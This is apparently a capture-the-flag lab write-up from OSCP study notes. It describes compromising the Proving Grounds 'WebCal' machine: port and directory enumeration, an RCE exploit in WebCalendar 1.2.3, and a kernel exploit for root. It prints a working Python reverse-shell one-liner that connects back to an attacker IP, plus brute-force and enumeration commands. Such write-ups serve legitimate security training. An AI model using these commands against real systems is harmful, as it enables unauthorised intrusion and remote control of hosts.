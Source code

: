 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After reading the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in PHP. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First, send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert "ls" command string into base64 format "bHM=". 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

I use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_16h00m41s_016_.png)

www-data

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h32m54s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h34m59s_007_.png)

#### Privilege Escalation

Execute linpeas.sh file to obtain suggestions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h45m28s_011_.png)

![imahe](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h42m51s_010_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h46m39s_012_.png)

Reviewing the list, I found that the server uses an old version of the Linux kernel.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h00m12s_013_.png)

After Googling, there is a possible suitable vulnerability "empodipper".

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h02m29s_014_.png)

The first exploit way attempt failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_13h05m22s_001_.png)

The second exploit way attempts to successfully obtain root privileges.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h07m50s_015_.png)
